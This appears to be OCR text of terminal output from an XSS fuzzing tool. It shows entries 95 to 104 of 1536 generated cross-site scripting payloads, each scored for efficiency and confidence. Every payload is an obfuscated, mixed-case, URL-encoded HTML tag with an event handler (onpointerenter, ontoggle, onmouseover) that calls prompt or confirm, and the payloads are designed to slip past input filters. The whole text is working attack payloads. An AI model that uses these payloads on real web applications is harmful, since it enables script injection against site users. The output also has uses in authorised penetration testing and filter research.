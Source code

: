 ------------------------------------------------------------
 Payload: <A%0aoNPoiNtErEntEr%0a=%0a(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 95/1536
 
------------------------------------------------------------
 Payload: <DEtAIls/+/oNTOGglE+=+[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 96/1536
 
------------------------------------------------------------
 Payload: <a/+/OnMOuseoVEr+=+a=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 97/1536
 
------------------------------------------------------------
 Payload: <HtmL%09oNpOinterEntER%0d=%0dconfirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 98/1536
 
 Progress: 99/1536
 
------------------------------------------------------------
 Payload: <HtML%0aOnPOiNTErENTer%0d=%0d(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 100/1536
 
------------------------------------------------------------
 Payload: <D3v%0doNPoinTerenter%09=%09(prompt)``//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 101/1536
 
------------------------------------------------------------
 Payload: <HTML%0dOnpoiNteREnTer%0d=%0d(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 102/1536
 
------------------------------------------------------------
 Payload: <d3V%0aONpOInTERENteR%09=%09[8].find(confirm)//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 103/1536
 
------------------------------------------------------------
 Payload: <d3v%0aoNmoUseOvER%0a=%0aa=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 104/1536
 